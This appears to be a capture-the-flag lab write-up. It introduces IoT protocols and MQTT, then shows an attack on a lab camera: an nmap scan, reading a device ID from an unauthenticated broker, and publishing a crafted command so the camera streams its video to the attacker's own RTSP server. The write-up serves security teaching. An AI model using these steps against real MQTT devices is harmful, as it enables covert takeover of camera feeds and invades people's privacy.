



## Introduction to IoT
An IoT protocol refers to any protocol used by an IoT device for `machine-to-machine`, `machine-to-gateway`, or `machine-to-cloud` communication. IoT protocols can be characterized into one of two types: `IoT data protocol` or `IoT network protocol`.

`IoT data protocol` commonly relies on `TCP/IP` model. `IoT network protocol` relies on wireless technology for communication (ie. WiFi, Bluetooth, Zigbee, Z-Wave, etc.).

## Messaging Protocols and Middleware
Messaging protocols communicate between two devices through an independent lightweight and efficient middleware server  or by negotiating a communication method amongst themselves. The server is place din between the two clients who want to communicate to translate the communication to a method both devices can understand.



The table below shows examples of popular protocols used by IoT devices.

| Protocol                                   | Communication Method | Description                                                                                                     |
|:------------------------------------------:|:--------------------:|:---------------------------------------------------------------------------------------------------------------:|
| MQTT (Message Queuing Telemetry Transport) | Middleware           | A lightweight protocol that relies on a publish/subscribe model to send or receive messages.                    |
| CoAP (Constrained Application Protocol)    | Middleware           | Translates HTTP communication to a usable communication medium for lightweight devices.                         |
| AMQP (Advanced Message Queuing Protocol)   | Middleware           | Acts as a transactional protocol to receive, queue, and store messages/payloads between devices.                |
| DDS (Data Distribution Service)           | Middleware           | A scalable protocol that relies on a publish/subscribe model to send or receive messages.                       |
| HTTP                                       | Device-to-Device     | Used as a communication method from traditional devices to lightweight devices or for large data communication. |
| WebSocket                                  | Device-to-Device     | Relies on a client-server model to send data over a TCP connection.                                             |

## Functionality of a Publish/Subscribe Model
Message protocols commonly use a `publish/subscribe` model such as `MQTT`. This model relies on a broker to negotiate `published` messages and `subscription` queries. 


Based on the above diagram:

1. A publisher sends their message to a broker.
2. The broker continues relaying the message until a new message is published.
3. A subscriber can attempt to connect to a broker and receive a message.

A broker can store multiple messages from different publishers by using `topics`. A `topic` is a semi-arbitrary value pre-negotiated by the publisher and subscriber and sent along with a message. The format of a `topic` commonly takes the form of `<name>/<id>/<function>`. When a new message is sent with a given topic, the broker will store/overwrite it under the topic and relay it to the subscribers who have subscribed to it.

The diagram below shows two publishers sending different messages associated with `topics`.



The diagram below shows two subscribers receiving messages from separate topics of a broker.



Note that this method of communication is *asynchronous* as the publisher can publish at any time and the subscriber can subscribe to a topic to see if the broker relayed messages.

## Interacting with MQTT
Two commonly used libraries for interacting with MQTT are: `Paho` and `Mosquitto`.

`Paho` is a python library that offers support for all features of MQTT. `Mosquitto` is a suite of MQTT utilities that include a broker and publish/subscribe clients which can be used from the command line.

### Subscribing to a Topic
The [mosquitto_sub](https://mosquitto.org/man/mosquitto_sub-1.html) client utility can be used to subscribe to an MQTT broker. By default, the subscription utility will connect a localhost broker and only require a topic to be defined using `-t` or `--topic`. Following is an example of connecting to a localhost and subscribing to the topic *device/ping*: `mosquito_sub -t device/ping`.

A remote broker can be specified using the `-h` flag: `mosquitto_sub -h example.com -t device/thm`.

### Publishing to a Topic
The [mosquitto_pub](https://mosquitto.org/man/mosquitto_pub-1.html) client utility can be used to publish to an MQTT broker.

To publish a message to a topic, `-m` or `--message` flag can be used: `mosquitto_pub -h example.com -t device/info -m "This is an example"`.

The following are several common optional flags used by both clients:
- `-d`: Enables debug messages.
- `-i` or `--id`: Specifies the id to identify the client to the server.
- `-p` or `--port`: Specifies the port the broker is using (Defaults to port 1883).
- `-u` or `--username`: Specifies the username for authentication.
- `-P` or `--password`: Specifies the password for authentication.
- `--url`: Specifies username, password, host, port, and topic in one URL.

## CTF Questions

Let's verify that the machine is acting as an MQTT endpoint using Nmap.

```text
$ nmap -sC -sV -p- 10.10.96.87 --min-rate 1500
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-21 15:31 MST
Verbosity Increased to 1.
Verbosity Increased to 2.
Completed Service scan at 15:33, 56.56s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.96.87.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:33
Completed NSE at 15:33, 9.53s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:33
Completed NSE at 15:33, 0.51s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:33
Completed NSE at 15:33, 0.01s elapsed
Nmap scan report for 10.10.96.87
Host is up (0.19s latency).
Scanned at 2022-12-21 15:31:34 MST for 125s
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE    SERVICE                 VERSION
22/tcp    open     ssh                     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 1d8ec8ced4351ab2906a9f2f88248fad (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDIZDobO9iT4Uy6UdlhLCDDB3h7wIg9/DgcDtYRVhluAzWv924ulvlMfVwrsaKCIQ8eJp1jZnbfeIwVOChpWbAM5RPGCnmrZEiJWoKQkgXgDDjOm9+a5oIrvQULpSGXcI5wwmTPNF/8d5R+PJV8xXbY77+X+SwEfLBFcnBtsg307smvEguSFGx64frIKKpof5E8AKRxI5PfNmQtTyIsIE8PBErHr4sB2HXEYwUZc5Hput8NaWn3U8ZjrTPq3ma5Z8Nsrwyw5KoI9nycQ9YD0DX+X5iQBnybz54II3lFhT9WWMS3MgrnfSoyFECCAB+IE5kDwuPreVNCz9slYqG6rsVAQ3lG0fwklxAYvYZEhe27a0t+QRMzMxPoiPq0TDrNYum16/9qywEAK5z4AKiCHKgCQdzEdWNyWu3Z9mOZC3GiokEEZ48ZstvxryNDmoAZ8S3tvuDb3jKStlz3guunfJjMwq8aSzwPNJOGl5IKHQg7S1rDtZD1yuinvQfwEBnD2mM=
|   256 910f21f62ea7e3d42aa5d8d8b712df1a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIe4xxx3L6HrLMkV9lcwOvpvtjrCfCp4vVaFKBp1IyCiSYrlLQhzBoPZvpntZq7fgpFN0mWTwlzegeVZlfQ5mDY=
|   256 40ead4bfe2d14b9d7b5722793f9b88fc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKCR97uJNCnjGlaEJg9+yFMl6XvewoQSykPtffjN3PAY
80/tcp    open     http                    WebSockify Python/3.8.10
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 405 Method Not Allowed
|     Server: WebSockify Python/3.8.10
|     Date: Wed, 21 Dec 2022 22:32:37 GMT
|     Connection: close
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 472
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 405</p>
|     <p>Message: Method Not Allowed.</p>
|     <p>Error code explanation: 405 - Specified method is invalid for this resource.</p>
|     </body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 501 Unsupported method ('OPTIONS')
|     Server: WebSockify Python/3.8.10
|     Date: Wed, 21 Dec 2022 22:32:38 GMT
|     Connection: close
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 500
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 501</p>
|     <p>Message: Unsupported method ('OPTIONS').</p>
|     <p>Error code explanation: HTTPStatus.NOT_IMPLEMENTED - Server does not support this operation.</p>
|     </body>
|_    </html>
|_http-title: Error response
|_http-server-header: WebSockify Python/3.8.10
1883/tcp  open     mosquitto version 1.6.9
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     $SYS/broker/uptime: 1122 seconds
|     $SYS/broker/load/bytes/sent/5min: 535.67
|     $SYS/broker/publish/bytes/sent: 2408
|     $SYS/broker/clients/active: 5
|     $SYS/broker/publish/messages/received: 111
|     $SYS/broker/load/publish/received/1min: 5.66
|     $SYS/broker/messages/sent: 214
|     $SYS/broker/clients/inactive: 0
|     $SYS/broker/clients/connected: 5
|     $SYS/broker/store/messages/count: 43
|     $SYS/broker/publish/messages/sent: 152
|     $SYS/broker/clients/disconnected: 0
|     $SYS/broker/messages/received: 173
|     $SYS/broker/load/connections/1min: 1.35
|     $SYS/broker/load/messages/received/1min: 11.07
|     $SYS/broker/heap/current: 58504
|     $SYS/broker/version: mosquitto version 1.6.9
|     $SYS/broker/load/publish/sent/1min: 43.12
|     $SYS/broker/bytes/received: 4167
|     $SYS/broker/load/messages/received/15min: 6.63
|     $SYS/broker/load/bytes/received/1min: 259.01
|     $SYS/broker/subscriptions/count: 4
|     $SYS/broker/load/sockets/5min: 0.53
|     $SYS/broker/messages/stored: 43
|     $SYS/broker/store/messages/bytes: 200
|     $SYS/broker/retained messages/count: 46
|     $SYS/broker/bytes/sent: 5685
|     $SYS/broker/load/connections/5min: 0.38
|     device/init: S2INBJXRDQFDF90VNXU6
|     $SYS/broker/load/publish/sent/15min: 6.95
|     $SYS/broker/load/sockets/1min: 1.58
|     $SYS/broker/load/sockets/15min: 0.25
|     $SYS/broker/load/publish/sent/5min: 13.82
|     $SYS/broker/clients/total: 4
|     $SYS/broker/load/bytes/sent/1min: 1728.47
|     $SYS/broker/load/bytes/received/5min: 221.28
|     $SYS/broker/load/bytes/sent/15min: 263.32
|     $SYS/broker/load/messages/sent/15min: 9.34
|     $SYS/broker/heap/maximum: 58904
|     $SYS/broker/load/publish/received/5min: 5.76
|     $SYS/broker/load/messages/sent/5min: 17.36
|     $SYS/broker/load/publish/received/15min: 4.23
|     $SYS/broker/load/messages/sent/1min: 48.54
|     $SYS/broker/clients/maximum: 4
|     $SYS/broker/load/messages/received/5min: 9.30
|     $SYS/broker/publish/bytes/received: 2220
|     $SYS/broker/load/connections/15min: 0.19
|_    $SYS/broker/load/bytes/received/15min: 158.81
42184/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.93%I=7%D=12/21%Time=63A38984%P=x86_64-pc-linux-gnu%r(Get
SF:Request,291,"HTTP/1\.1\x20405\x20Method\x20Not\x20Allowed\r\nServer:\x2
SF:0WebSockify\x20Python/3\.8\.10\r\nDate:\x20Wed,\x2021\x20Dec\x202022\x2
SF:022:32:37\x20GMT\r\nConnection:\x20close\r\nContent-Type:\x20text/html;
SF:charset=utf-8\r\nContent-Length:\x20472\r\n\r\n<!DOCTYPE\x20HTML\x20PUB
SF:LIC\x20\"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\"http://www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20\x
SF:20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"Con
SF:tent-Type\"\x20content=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20\x
SF:20\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>
SF:\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20
SF:response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20405
SF:</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Method\x20Not\x20A
SF:llowed\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code\x20expla
SF:nation:\x20405\x20-\x20Specified\x20method\x20is\x20invalid\x20for\x20t
SF:his\x20resource\.</p>\n\x20\x20\x20\x20</body>\n</html>\n")%r(HTTPOptio
SF:ns,2B9,"HTTP/1\.1\x20501\x20Unsupported\x20method\x20\('OPTIONS'\)\r\nS
SF:erver:\x20WebSockify\x20Python/3\.8\.10\r\nDate:\x20Wed,\x2021\x20Dec\x
SF:202022\x2022:32:38\x20GMT\r\nConnection:\x20close\r\nContent-Type:\x20t
SF:ext/html;charset=utf-8\r\nContent-Length:\x20500\r\n\r\n<!DOCTYPE\x20HT
SF:ML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\
SF:x20\x20\x20\x20\"http://www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\
SF:x20\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-eq
SF:uiv=\"Content-Type\"\x20content=\"text/html;charset=utf-8\">\n\x20\x20\
SF:x20\x20\x20\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x
SF:20</head>\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>
SF:Error\x20response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20cod
SF:e:\x20501</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Unsupport
SF:ed\x20method\x20\('OPTIONS'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p
SF:>Error\x20code\x20explanation:\x20HTTPStatus\.NOT_IMPLEMENTED\x20-\x20S
SF:erver\x20does\x20not\x20support\x20this\x20operation\.</p>\n\x20\x20\x2
SF:0\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:33
Completed NSE at 15:33, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:33
Completed NSE at 15:33, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:33
Completed NSE at 15:33, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 127.98 seconds

```
MQTT is running on port `1883`. Mosquito version `1.6.9` is running.

Subscribe to `device/init` topic to enumerate the device and obtain the device ID. Alternatively, we can find the device ID from the Nmap output as well: `device/init: S2INBJXRDQFDF90VNXU6`

```text
$ mosquitto_sub -h 10.10.96.87 -t device/init
S2INBJXRDQFDF90VNXU6
```

Start an RTSP server using [rtsp-simple-server](https://github.com/aler9/rtsp-simple-server).

```text
$ docker run --rm -it --network=host aler9/rtsp-simple-server
Unable to find image 'aler9/rtsp-simple-server:latest' locally
latest: Pulling from aler9/rtsp-simple-server
d7c47958dda1: Pull complete 
Digest: sha256:44ce06f758a74f316ae4d912706c5212af2fb4765137e119ff689c5ec327dc94
Status: Downloaded newer image for aler9/rtsp-simple-server:latest
2022/12/21 22:56:19 INF rtsp-simple-server v0.21.0
2022/12/21 22:56:19 INF [RTSP] listener opened on :8554 (TCP), :8000 (UDP/RTP), :8001 (UDP/RTCP)
2022/12/21 22:56:19 INF [RTMP] listener opened on :1935
2022/12/21 22:56:19 INF [HLS] listener opened on :8888
2022/12/21 22:56:19 INF [WebRTC] listener opened on :8889
```
RTSP server running on port `8554`. 

Publish our payload to `device/S2INBJXRDQFDF9/cmd` topic. The required format based on the source code is `{"CMD":"value","URL":"Value"}`. We can use a dummy path `testpath`.

```text
$ mosquitto_pub -h 10.10.96.87 -t device/S2INBJXRDQFDF9/cmd -m """{"cmd":"10","url":"rtsp://10.10.5.170:8554/testpath"}"""
```

RTSP server shows a connection back from the camera.

```text
2022/12/21 23:11:55 INF [RTSP] [conn 10.10.96.87:41498] opened
2022/12/21 23:11:55 INF [RTSP] [session 9ff80905] created by 10.10.96.87:41498
2022/12/21 23:11:55 INF [RTSP] [session 9ff80905] is publishing to path 'testpath', with UDP, 1 track (H264)
```

Let's view the stream by running VLC and opening the server path of the locally hosted RTSP server.

```text
$ vlc rtsp://127.0.0.01:8554/testpath
```